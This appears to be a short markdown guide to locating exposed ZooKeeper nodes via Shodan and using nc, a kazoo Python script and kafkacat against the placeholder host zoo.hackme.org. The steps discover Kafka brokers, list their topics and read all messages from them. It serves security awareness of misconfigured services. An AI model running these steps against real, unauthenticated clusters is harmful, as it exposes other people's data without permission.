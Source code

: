 # Kafkas and where to find them

### 1. Find a ZooKeeper IP - leader node (e.g. using [Shodan](https://www.shodan.io/search?query=zookeeper))

### 2. Check its health

 ```bash
 $ echo ruok | nc zoo.hackme.org 2181

 imok
 ```

### 3. Interrogate the node using other [ZooKeeper command](https://zookeeper.apache.org/doc/r3.1.2/zookeeperAdmin.html#sc_zkCommands) 

Print details about serving environment (note the Kafka libraries on classpath):

```bash
$ echo envi | nc zoo.hackme.org 2181

Environment:
zookeeper.version=3.4.10-39d3a4f269333c922ed3db283be479f9deacaa0f,
				  built on 03/23/2017 10:13 GMT
host.name=zoo.hackme.org
java.version=1.8.0_181
java.vendor=Oracle Corporation
java.home=/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.181-3.b13.el7_5.x86_64/jre
java.class.path=/opt/kafka_2.11-1.1.0/bin/../libs/aopalliance-repackaged
				-2.5.0-b32.jar:/opt/kafka_2.11-1.1.0/bin/../libs/argparse4j
				-0.7.0.jar:/opt/kafka_2.11-1.1.0/bin/../libs/commons-lang3
				-3.5.jar:...
```


List the (ephemeral) nodes to find any connected brokers:

```bash
$ echo dump | nc zoo.hackme.org 2181

SessionTracker dump:
Session Sets (3):
0 expire at Fri Feb 15 20:43:09 CET 2019:
0 expire at Fri Feb 15 20:43:12 CET 2019:
1 expire at Fri Feb 15 20:43:15 CET 2019:
	0x16883e87c240000
ephemeral nodes dump:
Sessions with Ephemerals (1):
0x16883e87c240000:
	/controller
	/brokers/ids/0

```

### 4. Fetch details about the broker (e.g. using [kazoo](https://kazoo.readthedocs.io/en/latest/basic_usage.html))

```python
# kazoo-dump.py

from kazoo.client import KazooClient
import logging

logging.basicConfig()
zk = KazooClient(hosts='zoo.hackme.org:2181')
zk.start()

data, stat = zk.get("/brokers/ids/0")
print("Version: %s, data: %s" % (stat.version, data.decode("utf-8")))

zk.stop()
```

```bash
$ python kazoo-dump.py

Version: 0, data: {
    "listener_security_protocol_map": {
        "PLAINTEXT": "PLAINTEXT"
    },
    "endpoints": ["PLAINTEXT://kafka.hackme.org:9092"],
    "jmx_port": -1,
    "host": "kafka.hackme.org",
    "timestamp": "1548401285140",
    "port": 9092,
    "version": 4
}
```

### 5. We now have a Kafka broker, let's ask for its topics with [kafkacat]()

```bash
$ kafkacat -b kafka.hackme.org:9092 -L

Metadata for all topics (from broker -1: kafka.hackme.org:9092/bootstrap):
 1 brokers:
  broker 0 at kafka.hackme.org:9092
 3 topics:
  topic "topic_foo" with 1 partitions:
    partition 0, leader 0, replicas: 0, isrs: 0
  topic "topic_bar" with 1 partitions:
    partition 0, leader 0, replicas: 0, isrs: 0
  topic "topic_baz" with 1 partitions:
    partition 0, leader 0, replicas: 0, isrs: 0
```

### 6. Consume messages for any topic

```bash
$ kafkacat -b kafka.hackme.org:9092 -C -t topic_foo -o beginning
```
